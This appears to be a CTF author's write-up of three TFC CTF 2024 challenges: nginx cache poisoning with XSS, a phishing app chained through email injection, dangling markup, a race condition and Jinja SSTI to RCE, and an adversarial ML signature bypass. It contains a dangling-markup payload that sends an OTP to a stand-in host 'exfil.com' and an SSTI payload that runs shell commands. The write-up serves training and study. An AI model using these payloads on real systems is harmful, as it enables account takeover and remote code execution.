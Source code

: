 # TFC CTF 2024 Challenges

Here are the sources and solutions for the challenges I created for TFC CTF 2024:

## PNGiphy - Web

PNGiphy was a HARD web challenge involving Cache Poisoning coupled with XSS.

After navigating on the platform, we can see that image upload is possible. However, no sanitization is in place, so we can upload any file, like a valid JS or HTML and it will be saved under `/static/images/<id>`.

Also, images can be reported to a bot that will visit them. But the bot only visits `/?image=imageid`, which loads the corresponding uploaded file into an `img` tag, so XSS should not be possible.

After a closer look, we can see caching is enabled in nginx.conf:

```
proxy_cache_valid 200 301 1m;
proxy_cache_key "$scheme://$hostname$uri";
```

But the cache key is not properly used, leading to cache poisoning.
That is because, in nginx, the `$uri` parameter does not include the parameters and the fragment part. So those will not be included in the cache key. However, when the request is forwarded, golang does not interpret the hash character (`#`) as the beginning of a fragment, thus including it in the path.

It should also be noted that golang normalizes the paths, so a request to `a/b/../c` will return a redirect to `a/c`.

The cache poisoning should begin like this:
* Upload a file with a js payload (containing the XSS payload) and get its id
* Wait 1 minute for the cache to clear and then navigate to `/static/main.js#/../images/<id>` in order to trigger a new cache.
* The cache will be poisoned (cache key will be `/static/main.js` and will be served as a 301 redirect to `/static/images/<id>`)
* Report any image id and, when the bot will load the page, `/static/main.js` will be fetched by the browser, thus rendering our cached file contents and and the XSS payload will be executed

From there just get the leaked flag from the cookie.

## Phisher - Web

Phisher was a HARD-INSANE web challenge, involving information disclosure through email injection + dangling markup, as well as RCE through Race-Condition + SSTI.

The application is split into two parts.

The first one, under `mail.phisher.tfc`, is an inbox application. Users can register under any email and will receive messages. On the other one, `dashboard.phisher.tfc`, the login is implemented using OTP codes, which are sent in the respective's user inbox.

After logging in on the dashboard, users will be able to send referrals to other users, including custom messages. This is done using jinja's `render_template_string`. But, no SSTI is possible when sending a simple message. There is also a specific admin functionality, `bulk_send`, which allows sending multiple messages to users.

### Step one
The first step should be gaining admin access. In order to do this, we should leak his OTP somehow. Note that, in the email body, the user's email is rendered unsanitized. So, we could try injecting some HTML. However, the iframe is sandboxed, so XSS can not be achieved inside the rendered email preview.

Why is entering HTML tags possible? Because `flask_mail` parses the email address this way: If the `<` and `>` tags are present in the email, it will take the address between the tags as the recipient. Everything else is ignored:

```py
>>> import email.utils
>>> email.utils.parseaddr('test<admin@phisher.tfc>test<h1>')
('test', 'admin@phisher.tfc')
```

So, the above payload will actually be sent to the admin user and will be rendered unsanitized inside the email body. But how can we exfiltrate the OTP?

Here comes [Dangling Markup](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) to our help. Entering a payload like `test<admin@phisher.tfc>test<img src="http://exfil.com/?x=` will result in the whole content before the first quotes being included in the image tag. This includes the OTP, which will be included in the exfiltration URL (`http://exfil.com/?x=,</p>            <p>Here is your code: <b>16919426</b></p>        </div>        <div class=`), thus leaking the admin's code.

After getting the admin code, we can login into his account. Now we have access to the full dashboard functionality.

### Step two
For the second part, the main issue resides in the `bulk_send` functionality. While normal users can only send one message at a time, admin users can enter emails separated by a comma and the backend will create a queue of messages. After that, the backend attempts to include the referral message in **all** the queue emails, without if they are already rendered:

```py
def send_bulk(self, sender_email, rcpts, message):
    self.queue.extend(Referral(sender_email, rcpt) for rcpt in rcpts)
    for referral in self.queue:
        referral.include_message(message)
```

So, if the queue is not empty when the request is made, `render_template_string` will be called again on the old items, meaning double template rendering, which results in SSTI.

The plan is as following: Send a request with `{{[].__class__}}` in the message field and a batch of emails separated by comma in the emails field. This will fill the queue with emails that contain the above payload in the message field. Then, send another request similar to the previous one (make sure the timespan between the two requests is very short in order to win the race condition). Immediately when the second request is parsed, the queue will still have some emails that need to be parsed from the first request. Jinja's `render_template_string` will be called again on them and our previously included payload in the message (which initially was harmless), will now be executed. Then, the user will receive a bunch of emails, some of them containing the SSTI results.

Because template rendering escapes quotes, the final payload should be like this: `{{[].__class__.mro()[1].__subclasses__()[370](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip()}}` with the GET argument `?cmd=cat+/flag.txt`.

### Note:

The only team that solved the challenge, **COR (.;,;.)**, actually found an unintended solution to the first part of the challenge. Instead of using `dangling markup` in the email body, they managed to trigger an actual XSS on the email site, because the `From:` field from the email list was not sanitized. Thus, they bypassed the sandbox and leaked the OTP directly from outside the iframe. You can read their writeup [here](https://cor.team/posts/tfc-ctf-2024-phisher/). Congrats to them for the third place!

## Signature - AI/ML

Signature was a MEDIUM Machine Learning challenge involving adversarial attacks.

The website is waiting for a photo with a signature in order to authenticate the user. If the signature matches, the flag is returned.

The signature matching is performed using a CNN model, `model.h5`. In order to retreive the image that the model learned as being valid, a couple of attacks could be performed: `input layer attack` and `gradient tape`. These two are similar. You can find the exploit scripts inside the `solver/` folder of the `Signature` repo.